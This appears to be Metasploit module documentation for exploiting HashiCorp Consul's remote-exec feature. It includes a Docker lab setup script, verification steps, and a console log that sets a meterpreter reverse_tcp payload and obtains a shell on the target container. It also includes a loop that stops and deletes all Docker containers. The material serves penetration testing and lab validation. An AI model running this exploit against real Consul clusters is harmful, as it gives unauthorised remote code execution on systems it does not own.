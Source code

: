 ## Vulnerable Application

### Description

This module exploits a feature of Hashicorp Consul named rexec.

The exec command provides a mechanism for remote execution. For example, this can be used to run the uptime command across all machines providing the web service.

The exposure of rexec service depends on the `disable_remote_exec` option. This option was set to true starting from Consul 0.8, to make remote exec opt-in instead of opt-out.


#### References

* Consul Exec - https://www.consul.io/docs/commands/exec.html
* Consul _disable_remote_exec_ option - https://www.consul.io/docs/agent/options.html#disable_remote_exec
* Inspiration from Garfield PoC - https://github.com/torque59/Garfield

### Test setup

The following bash script can be used to setup a testing environment with Docker:

```
#!/bin/sh

echo "[+] Launching consul instances..."
BOOTSTRAP_ID=`docker run -p8301:8301 -d --name=consul_bootstrap_server consul:latest agent -server -client=0.0.0.0 -bootstrap -data-dir /tmp/consul`
sleep 2
BOOTSTRAP_IP=`docker inspect --format '{{ .NetworkSettings.IPAddress }}' $BOOTSTRAP_ID`
docker run -d --name=consul_client_1 -e 'CONSUL_LOCAL_CONFIG={"leave_on_terminate": true, "enable_script_checks":true, "disable_remote_exec":false}' consul:latest agent -ui -client=0.0.0.0 -retry-join=$BOOTSTRAP_IP
echo "[+] Checking members..."
docker exec -t consul_bootstrap_server consul members -http-addr="$BOOTSTRAP_IP:8500"
```

You should observe something similar to the excerpt below when running the script:

```
sudo ./launch.sh
[+] Launching consul instances...
d28e7cf476ff2f148cad81a0b1959a7c67591c2e348c6172b6f463af66d1eb9a
[+] Checking members...
Node          Address          Status  Type    Build  Protocol  DC   Segment
38a7c1d93e7f  172.17.0.1:8301  alive   server  1.4.0  2         dc1  <all>
d28e7cf476ff  172.17.0.2:8301  alive   client  1.4.0  2         dc1  <default>
```

The following bash script can be used to stop and destroy **all your running docker containers** (so be careful if you use docker containers for other things at the same time):

```
#!/bin/sh
for h in `sudo docker ps -a| grep -v CONTAINER | cut -d' ' -f1`; do sudo docker stop $h && sudo docker rm $h; done
```

## Verification Steps

You can verify the module against the vulnerable application with those steps:

  1. Launch a Consul cluster with the provided bash script
  2. Start msfconsole
  3. Do: `use exploit/multi/misc/consul_rexec_exec`
  4. Do: `set RHOST ip_of_consul_container`
  5. Do: `set RPORT 8500`
  6. Do: `check`. The target should appear vulnerable.
  7. Do: `set payload` with the payload of your choosing.
  8. Do: `set LHOST 172.17.42.1` (docker0 gateway IP)
  9. Do: `run`
  10. You should get a shell.

## Scenarios

### Reverse shell on Linux host

Exploit running against a Docker [consul](https://hub.docker.com/_/consul/) container target:

```
msf5 > use exploit/multi/misc/consul_rexec_exec
msf5 exploit(multi/misc/consul_rexec_exec) > set RHOSTS 172.17.0.4
RHOSTS => 172.17.0.4
msf5 exploit(multi/misc/consul_rexec_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/misc/consul_rexec_exec) > set LHOST 172.17.42.1
LHOST => 172.17.42.1
msf5 exploit(multi/misc/consul_rexec_exec) > check
[+] 172.17.0.4:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_rexec_exec) > run

[*] Started reverse TCP handler on 172.17.42.1:4444
[*] Creating session.
[*] Got rexec session ID b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Setting command for rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Triggering execution on rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Sending stage (861480 bytes) to 172.17.0.4
[*] Cleaning up rexec session b39ba52e-848d-9dc4-dc1e-e84760062335
[*] Command Stager progress - 115.73% done (883/763 bytes)

meterpreter > sysinfo
Computer     : 172.17.0.4
OS           :  (Linux 4.4.0-38-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.17.0.4 - Meterpreter session 1 closed.  Reason: User exit
```
